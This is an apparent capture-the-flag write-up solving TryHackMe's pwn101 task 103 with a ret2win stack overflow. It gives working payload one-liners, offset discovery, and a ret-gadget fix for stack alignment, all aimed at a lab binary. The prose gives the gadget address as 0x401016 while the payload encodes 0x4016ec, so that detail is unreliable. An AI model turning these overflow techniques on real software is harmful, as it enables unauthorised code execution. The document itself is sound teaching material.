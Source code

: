 +++
title = "THM | pwn101 task 103"
+++

# How to exploit 103 task from the room pwn101 ?

## exploit

```bash
python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\xec\x16\x40\x00\x00\x00\x00\x00' + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
(echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```

## Why ?

begin with the begining, find the vector:

- check the first input
- check the others possibilities of the menu

so, let's check the first input after the try of adding a lot of 'A' we don't find the vector here now, let check the others menu:

1. Announcements: juste some text so not input
2. Rules: same as Announcements
3. Général: check with a lot of 'A' and let's go ! we find the enter !

now, let's exploit !

### find the size of the buffer

we're going to find the size of the buffer by using `msf-pattern` and `gdb-peda`:

```bash
msf-pattern_create -l 100
```

then run gdb peda:
![gdb peda screenshot](/images/pwn103/gdb.png)

the use msf-patter_offset:

```bash
msf-pattern_offset -q 0x4132624131624130
```

### find interesting functions

and we find that the buffer has a size of 32 or 0x20 bytes now, we have to find how to exploit let's open cutter to find some intersting funtions or others:

![cutter admins_only function decompiled](/images/pwn103/cutter.png)

so, we finds the function admins_only who give a shell a the adress `0x00401554`

## PWN !

now we have all to exploit:
- buffer size
- function to call

### let's build the exploit !

payload = buffer_size + 8bytes to write into the RSP registre + admins_only adress

let's try it !

```bash
python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
(echo "3\n"; cat payload; cat) | ./pwn103.pwn103 
```

saddly, it's didn't work...

![fails screenshot](/images/pwn103/fail.png)

So why ?!
it's because the movaps issue: [link to a ressource](https://ropemporium.com/guide.html)\
the solution from the website:

	The MOVAPS issue
	If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

so, let's find a ret intruction and add it into our payload

### find a ret instruction

let's use `ROPgadget` to find a ret instruction:
```bash
ROPgadget --binary pwn103.pwn103 | grep ret
```
![ROPgadget tool to find gadgets screenshot](/images/pwn103/ROPgadget.png)

so let's add `0x0000000000401016` to the payload

## Exploitation

new payload = buffer_size + 8bits to write into the RSP registre + ret_adress + admins_only adress

```bash
python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\xec\x16\x40\x00\x00\x00\x00\x00' + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
(echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```

![successfull exploit execution](/images/pwn103/exploit.png)

GG !

## PS:

After viewing a stream of [topklean](https://twitch.tv/topklean) i see another solution without bypass the MOVAPS issue:

```bash
python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\x7a\x15\x40\x00\x00\x00\x00\x00')"
(echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```
